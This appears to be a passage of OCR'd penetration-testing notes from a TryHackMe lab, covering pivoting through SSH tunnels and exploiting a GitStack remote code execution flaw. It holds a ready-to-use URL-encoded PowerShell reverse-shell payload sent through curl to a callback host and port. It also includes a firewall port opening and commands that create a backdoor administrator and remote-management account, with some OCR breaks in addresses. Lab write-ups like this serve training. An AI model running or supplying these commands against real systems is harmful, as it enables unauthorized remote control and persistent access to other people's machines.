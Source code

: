 ```bash
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
ssh -i id_rsa_tar1_root root@10.200.185
.200 -L 80:10.200.185.150:80
:80 -fN
```



## PORT 80[port forward 10.200.185.150
]
http://localhost/registration/login/
Running GitStack
```bash
searchsploit gitstack
GitStack 2.3.10 - Remote Code Execution            | php/webapps/43777.py
GitStack - Remote Code Execution                   | php/webapps/44044.md

```
```bash
\curl -X POST http://localhost/web/exploit.php  -d "a=whoami"
"nt authority\system"

curl -X POST http://localhost/web/exploit.php  -d "a=hostname"
"git-serv"

```

Lets get a reverse shell

Before we can do this, however, we need to take one other thing into account. CentOS uses an always-on wrapper around the IPTables firewall called "firewalld". By default, this firewall is extremely restrictive, only allowing access to SSH and anything else the sysadmin has specified. Before we can start capturing (or relaying) shells, we will need to open our desired port in the firewall. This can be done with the following command:
firewall-cmd --zone=public --add-port PORT/tcp

```bash
firewall-cmd --zone=public --add-port 4444/tcp

curl -X POST http://localhost/web/exploit.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.185.200%27%2C4444%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

```bash
We already have the ultimate access, so let's create such an account! Choose a unique username here (your TryHackMe username would do), and obviously pick a password which you don't use anywhere else.

First we create the account itself:
net user USERNAME PASSWORD /add
net user void helloworld /add


Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:
net localgroup Administrators USERNAME /add
net localgroup Administrators void /add

net localgroup "Remote Management Users" USERNAME /add
net localgroup "Remote Management Users" void /add
```